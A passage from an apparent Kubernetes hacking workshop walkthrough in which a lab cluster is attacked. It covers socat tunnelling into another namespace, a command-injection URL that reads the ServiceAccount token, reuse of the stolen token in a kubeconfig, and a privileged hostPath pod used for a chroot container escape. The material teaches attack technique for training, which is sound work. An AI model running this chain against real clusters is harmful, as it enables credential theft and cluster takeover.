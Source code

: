 # Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through

<!-- TOC -->
* [Hands-on Hacking K8s Workshop | Section 2: Exploit Walk-through](#hands-on-hacking-k8s-workshop--section-2--exploit-walk-through)
  * [Part 6: Escaping our Namespace](#part-6--escaping-our-namespace)
    * [Checkpoint](#checkpoint)
      * [What we already knew:](#what-we-already-knew-)
      * [New info:](#new-info-)
      * [Timeline of Doom](#timeline-of-doom)
  * [Next step](#next-step)
<!-- TOC -->

## Part 6: Escaping our Namespace

Now that we know about another port 5000 listener in some other Namespace, we will use some simple TCP
tunneling to attack it.

1. In the exec shell still open from the prior step, we will use the `socat` tool to create a tunnel
   from it toward this new listener: `socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000` _(replace `10.244.162.132` with the IP from your nmap results)_
   ```shell
   root@snyky:~# socat tcp-listen:5001,reuseaddr,fork tcp:10.244.162.132:5000
   ```

2. In a new shell, set your Kubernetes config variable and create a port-forward into the snyky pod:
   ```shell
   $ export KUBECONFIG=demokubeconfig
   $ kubectl port-forward snyky 5001 -n secure
   Forwarding from 127.0.0.1:5001 -> 5001
   Forwarding from [::1]:5001 -> 5001
   ```
   With these tunnels in place, any TCP traffic connecting to your local machine at port 5001 will be
   forwarded to the snyky pod at port 5001.  Then, the `socat` process will forward that traffic from
   the snyky pod to the mystery service on port 5000.


3. Open http://localhost:5001 in your browser...
   ![](media/02-06-03-sameapp.png)
   The same app _is_ running there! (FYI: we didn't need the `/webadmin` context because we aren't traversing
   an ingress)


4. Let's see if this copy of the application has the RCE vulnerability by looking for it's token: http://localhost:5001?cmd=cat%20/var/run/secrets/kubernetes.io/serviceaccount/token
   ![](media/02-06-04-token.png)
   Yes it is and now we have another token we can experiment with! 😈


5. Go ahead and kill the port-forward, close that terminal and kill socat processes and exit the exec session from the snyky
   pod. We won't be needing them anymore.


6. Open the `demokubeconfig` file in an editor comment out the existing `token:` and insert a new line with the token in
   your browser from the new server.
    ```yaml
    ...
    users:
    - name: snyk
      user:
        token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    #    token: eyJhbGciOiJSUzI1NiIsImtpZCI6InpfR3c3bnNldWltRjh0dnVEWWJSTWJMckRQN1BrTGhMS0hIMmtVSHlMMDgifQ.eyJhdWQiOlsiaHR0c...
    ```
   Save and exit your editor.


7. With this new token in place, let's try to list pods in the `default` Namespace again: `kubectl get pods`
    ```shell
    $ kubectl get pod
    NAME                        READY   STATUS    RESTARTS   AGE
    webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
    ```
   Well look at that! It appears that someone deployed a copy of the application into the `default` Namespace and, thus,
   we now have a `default` ServiceAccount token at our disposal!

8. We should see what permissions this new token gives us with `kubectl auth can-i --list`
    ```shell
    $ kubectl auth can-i --list
    Resources                                       Non-Resource URLs                     Resource Names   Verbs
    *.*                                             []                                    []               [create get watch list patch delete deletecollection update]
    ```
   Well, isn't that nice!  Full access to all (`*.*`) resources in the default Namespace! This happens more often that
   you might think because most developers only write RBAC restrictions for resources in the Namespaces their applications
   live in, leaving the `default` to me managed by someone else. Unfortunaly—for this cluster—the default RBAC for the `default` 
   `ServiceAccount` is wide open!

9. Now we can try to deploy a pod in the `default` Namespace; let's go ahead and try that
   [privileged Pod](../demo_yamls/nonroot_priv.yaml) again and see if it works:
   `kubectl apply -f demo_yamls/nonroot_priv.yaml`
   ```shell
   $ kubectl apply -f demo_yamls/nonroot_priv.yaml
   pod/nonroot-priv created
   
   $ kubectl get pods
   NAME                        READY   STATUS    RESTARTS   AGE
   nonroot-priv                1/1     Running   0          5s
   webadmin-69dd65c7f9-86p58   1/1     Running   0          8h
   ```
   That appears to have worked which indicates that PSP restriction in the `default` Namespace are relaxed/non-existant.


10. Exec into this pod and see what we can do: `kubectl exec -it nonroot-priv -- bash`
   ```shell
   $ kubectl exec -it nonroot-priv -- bash
   To run a command as administrator (user "root"), use "sudo <command>".
   See "man sudo_root" for details.
   
   snyky@nonroot-priv:/$ sudo su
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ssl    0:00 /usr/local/bin/gotty --config /opt/gotty.conf /bin/bash
        17 pts/0    Ss     0:00 bash
        30 pts/0    D+     0:00 sudo su
        31 pts/1    Ss     0:00 sudo su
        32 pts/1    S      0:00 su
        33 pts/1    S      0:00 bash
        35 pts/1    R+     0:00 ps ax
   ```
   Looking good so far, but if you look at the manifest for this pod, we are mounting a host volume at path `/chroot`:
   ```yaml
   ...
       volumeMounts:
         - mountPath: /chroot
           name: host
       securityContext:
         runAsUser: 999
         privileged: true
     volumes:
     - name: host
       hostPath:
         path: /
         type: Directory
   ```
   ... so let's `chroot /chroot` and see what we get...
   ```shell
   root@nonroot-priv:/# chroot /chroot
   root@nonroot-priv:/# ps ax
       PID TTY      STAT   TIME COMMAND
         1 ?        Ss     0:00 /sbin/init
        83 ?        S<s    0:01 /lib/systemd/systemd-journald
        95 ?        Ssl    6:47 /usr/local/bin/containerd
       167 ?        Ssl    8:32 /usr/bin/kubelet --bootstrap-kubeconfig=/etc/kubernetes/bootstrap-kubelet.conf --kubeconfig=/etc/kubernetes/kubelet.conf --conf
       250 ?        Sl     1:11 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id f6e4526e4b313c3cb9c6dbbb1d0c8050e10611a8f567d6148485acda80b2713a -
       269 ?        Ss     0:00 /pause
       500 ?        Sl     0:09 /usr/local/bin/containerd-shim-runc-v2 -namespace k8s.io -id 18aadb6e8ef7b60069841da12737e66bea74891089126081d2208d07f5a92c42 -
       519 ?        Ss     0:00 /pause
       549 ?        Ssl    0:11 /usr/local/bin/kube-proxy --config=/var/lib/kube-proxy/config.conf --hostname-override=kind-worker
       994 ?        Ss     0:00 /usr/local/bin/runsvdir -P /etc/service/enabled
    ...
   ```
   Those are the processes running on the host.  We've effectively escaped this container by mounting the host `/` volume
   into the container and `chroot`ing to it. _(In case you weren't aware, `ps` uses the `/proc` filesystem for its PID info)_

### Checkpoint
Let's take a moment to collect our notes and track our progress.

#### What we already knew:
* An application with an RCE vulnerability is available to us on port 80
* The application is running in a container on a Kubernetes cluster
* The application is behind a service listening on port 5000
* The Kubernetes api-server internal IP address 
* The IP address of the container/pod the application is running in
* The ServiceAccount and Pod configurations in the `secure` Namespace is using the default `automountServiceAccountToken` setting of `true`
* Using a found ServiceAccount token, we were able to connect to the cluster's api-server
* The api-server returned Endpoint information exposing its external IP _(although our workshop Kind cluster obscures this in practice)_
* The account for the token gathered has limited access in the `default` Namespace
* The account is from a Namespace titled `secure` where it has broad access.
* The application container is somewhat hardened by running as a non-root user and its image does not include `sudo`
* The application container is not running with a `readOnlyRootFilesystem:true` so it's mutable
* There are PSP configurations in place in the `secure` Namespace that restrict root users and privileged mode containers/pods
* The `secure` Namespace PSP is **not** configured with `allowPrivilegeEscalation:false` so SUID binaries are effective
* Another application is listening at port 5000 and it is **not** in the `secure` Namespace. (We know
  it is not in the same Namespace because we would have seen it via `kubectl get`.)  We don't know what
  Namespace it is in yet.
* Apparently NetworkPolicy is either not deployed or is far too loose to allow that scan to find listeners
  outside the Namespace.
 
#### New info:
* The new IP address is another copy of the vulnerable application
* We've found another ServiceAccount token from this copy of the application 
* This copy of the application is running in the `default` Namespace
* The ServiceAccount and Pod configurations in the `default` Namespace is using the default `automountServiceAccountToken` setting of `true`
* RBAC is wide open for this ServiceAccount in the `default` Namespace
* PSPs are lax/non-existant in the `default` Namespace, allowing us to deploy privileged containers that we can easily escape.

![](media/02-06-Checkpoint-1.png)

#### Timeline of Doom
Updated progress toward total ownership of the target cluster.
![](media/02-06-Timeline-1.png)

## Next step
In the [next step](02g-exploit.md) we cross the finish line by taking over the cluster!
